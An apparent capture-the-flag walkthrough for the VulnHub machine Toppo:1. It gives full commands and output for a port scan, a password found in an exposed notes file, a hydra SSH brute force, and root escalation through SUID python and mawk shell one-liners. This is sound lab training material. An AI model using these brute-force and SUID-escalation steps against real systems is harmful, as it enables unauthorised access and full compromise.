 <https://www.vulnhub.com/entry/toppo-1,245/>


# Description

> The Machine isn't hard to own and don't require advanced exploitation .

# Keywords

suid python, suid mawk

# Scan

    $ sudo nmap -sT -A -Pn -n  -p- 172.16.16.130
    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 16:47 CEST
    Nmap scan report for 172.16.16.130
    Host is up (0.00051s latency).
    Not shown: 65531 closed ports
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
    |   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
    |   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
    |_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
    80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
    |_http-server-header: Apache/2.4.10 (Debian)
    |_http-title: Clean Blog - Start Bootstrap Theme
    111/tcp   open  rpcbind 2-4 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2,3,4        111/tcp   rpcbind
    |   100000  2,3,4        111/udp   rpcbind
    |   100000  3,4          111/tcp6  rpcbind
    |   100000  3,4          111/udp6  rpcbind
    |   100024  1          35811/udp6  status
    |   100024  1          42644/udp   status
    |   100024  1          45331/tcp   status
    |_  100024  1          45897/tcp6  status
    45331/tcp open  status  1 (RPC #100024)
    MAC Address: 00:0C:29:87:3F:30 (VMware)
    Device type: general purpose
    Running: Linux 3.X|4.X
    OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
    OS details: Linux 3.2 - 4.9
    Network Distance: 1 hop
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE
    HOP RTT     ADDRESS
    1   0.51 ms 172.16.16.130

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 15.09 seconds


# Exploit

## Web service

    $ curl http://172.16.16.130/admin/notes.txt
    Note to myself :

    I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .

## SSH service

    └─$ hydra -L usernames.txt -p 12345ted123 -f -e nsr -o hydra.txt -t 4 ssh://172.16.16.130
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-13 17:18:33
    [DATA] max 4 tasks per 1 server, overall 4 tasks, 8 login tries (l:2/p:4), ~2 tries per task
    [DATA] attacking ssh://172.16.16.130:22/
    [22][ssh] host: 172.16.16.130   login: ted   password: 12345ted123
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-13 17:18:36


    └─$ ssh ted@172.16.16.130
    ted@172.16.16.130's password: 12345ted123

# Get root


## suid

    ted@Toppo:~$ find / -perm -u=s -type f 2>/dev/null
    /sbin/mount.nfs
    /usr/sbin/exim4
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    /usr/bin/gpasswd
    /usr/bin/newgrp
    /usr/bin/python2.7      <== HERE
    /usr/bin/chsh
    /usr/bin/at
    /usr/bin/mawk           <== HERE
    /usr/bin/chfn
    /usr/bin/procmail
    /usr/bin/passwd
    /bin/su
    /bin/umount
    /bin/mount



## python

    ted@Toppo:~$ cat asroot.py 
    import os
    os.setuid(0)
    os.setgid(0)
    os.system('/bin/bash')
    ted@Toppo:~$ python test.py 
    root@Toppo:~# id
    uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth),1000(ted)

## mawk

    ted@Toppo:~$ mawk 'BEGIN {system("/bin/bash -p")}'
    bash-4.3# id
    uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
    bash-4.3# whoami
    root

    ted@Toppo:~$ mawk 'BEGIN {system("./asroot-32")}'
    root@Toppo:~# id
    uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth),1000(ted)
